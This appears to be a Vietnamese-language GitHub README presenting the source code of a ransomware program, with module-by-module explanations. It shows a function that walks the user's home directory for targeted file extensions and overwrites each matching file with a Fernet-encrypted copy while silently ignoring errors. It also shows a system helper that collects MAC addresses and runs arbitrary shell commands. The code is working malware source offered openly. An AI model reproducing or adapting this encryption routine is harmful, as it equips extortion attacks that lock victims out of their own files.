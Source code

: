 # RANSOMWARE
Chương trình ransomware, một loại phần mềm độc hại thường sử dụng để mã hóa các tệp trên máy tính của người dùng và yêu cầu một khoản tiền chuộc để giải mã chúng.

## MODULES
**1.CRYPTO**
```python
def Process_Files(Private: Fernet, mode: str):
    for _, files in List_Files().items():
        for file in files:
            temp_file = file + '.temp'
            try:
                with open(file, 'rb') as original_file, open(temp_file, 'wb', buffering=4096*1024) as temp_file:
                    with mmap.mmap(original_file.fileno(), 0, access=mmap.ACCESS_READ) as mm:
                        offset = 0
                        while offset < len(mm):
                            chunk = mm[offset:offset + 4096 * 1024]
                            if not chunk:
                                break
                            processed_chunk = Private.encrypt(chunk) if mode == 'encrypt' else Private.decrypt(chunk)
                            temp_file.write(processed_chunk)
                            offset += len(chunk)
                shutil.move(temp_file.name, file)
            except Exception as e: pass
            finally:
                if os.path.exists(temp_file.name):
                    os.remove(temp_file.name)
```
1. Hàm *Process_Files* nhận vào hai tham số: *Private*, một đối tượng *Fernet* được sử dụng để mã hóa và giải mã, và *mode*, một chuỗi chỉ định chế độ hoạt động (‘encrypt’ hoặc ‘decrypt’).

2. Hàm này sẽ duyệt qua tất cả các tệp tin được trả về bởi hàm *List_Files*.

3. Đối với mỗi tệp, nó tạo một tệp tạm thời với tên là tên tệp gốc kèm theo ‘.temp’.

4. Nó mở tệp gốc để đọc và tệp tạm thời để ghi, với kích thước bộ đệm là 4096*1024 byte. Sử dụng mmap để ánh xạ tệp gốc vào bộ nhớ. 
Sau đó đọc và xử lý từng ‘chunk’ của tệp gốc, với kích thước ‘chunk’ là 4096*1024 byte.

5. Mỗi ‘chunk’ sau đó được mã hóa (nếu mode là ‘encrypt’) hoặc giải mã (nếu mode là ‘decrypt’) bằng cách sử dụng đối tượng Fernet, và sau đó được ghi vào tệp tạm thời.

6. Khi tất cả các ‘chunk’ đã được xử lý, tệp tạm thời được đổi tên thành tên của tệp gốc, thay thế tệp gốc. Nếu có lỗi xảy ra trong quá trình này, hàm sẽ bỏ qua lỗi và tiếp tục với tệp tiếp theo. Cuối cùng, nếu tệp tạm thời vẫn tồn tại (ví dụ, do một lỗi xảy ra), nó sẽ được xóa.
```python
def List_Files() -> dict:
    with open('scripts/extensions.yaml', 'r') as file:
        exts = Safe_Load(file)

    file_categories = {category: [] for category in exts}
    extcategory = {ext: category for category, ext_list in exts.items() for ext in ext_list}

    for entry in Path.home().rglob('*'):
        if entry.is_file() and (ext := entry.suffix.lower()) in extcategory:
            file_categories[extcategory[ext]].append(str(entry))

    return file_categories
```
1. Hàm mở tệp *‘scripts/extensions.yaml’* để đọc và sử dụng hàm *Safe_Load(file)* để phân tích dữ liệu *YAML* từ tệp này. Kết quả được lưu vào biến *exts*.

2. Tạo một từ điển *file_categories* với các khóa là các danh mục từ *exts* và giá trị là các danh sách trống. Tạo một từ điển *extcategory* mà mỗi phần mở rộng tệp trong *exts* là một khóa và giá trị tương ứng là danh mục của phần mở rộng đó.

3. Sau đó duyệt qua tất cả các tệp trong thư mục chính của người dùng. Nếu một mục là tệp và phần mở rộng của nó (được chuyển thành chữ thường) có trong *extcategory*, tệp đó sẽ được thêm vào danh mục tương ứng trong *file_categories*.

**2.SYSTEM**
```python
class System:
    def __init__(self) -> None:
        self.Windows = _os_name == 'nt'
 
    def Init(self) -> None:
        _system('')

    def Clear(self) -> None:
        return _system("cls" if self.Windows else "clear")

    def Title(self, title: str):
        if self.Windows:
            return _system(f"title {title}")

    def Size(self, x: int, y: int) -> None:
        if self.Windows:
            return _system(f"mode {x}, {y}")
    
    def Reset(self) -> None:
        execv(executable, [executable] + argv) 
    
    def Mac(self) -> str:
        try:
            address_mac = [
                address.address 
                for addresses in net_if_addrs().values() 
                for address in addresses 
                if address.family == AF_LINK
            ]
            return '|'.join(address_mac) if address_mac else 'nm'  
        except:
            return 'nm'
    
    def Command(command: str):
        return _system(command)
```
    1 variable:
        Windows    |      cho biết người dùng đang sử dụng hệ điều hành Windows hay không
    7 functions:
        Init()     |      khởi tạo terminal để cho phép sử dụng màu sắc
        Clear()    |      xóa terminal
        Title()    |      đặt tiêu đề của terminal, chỉ dành cho Windows
        Size()     |      đặt kích thước của terminal, chỉ dành cho Windows
        Reset()    |      khởi động lại chương trình hiện tại
        Mac()      |      địa chỉ MAC của máy tính
        Command()  |      thực thi một lệnh shell trên hệ thống máy tính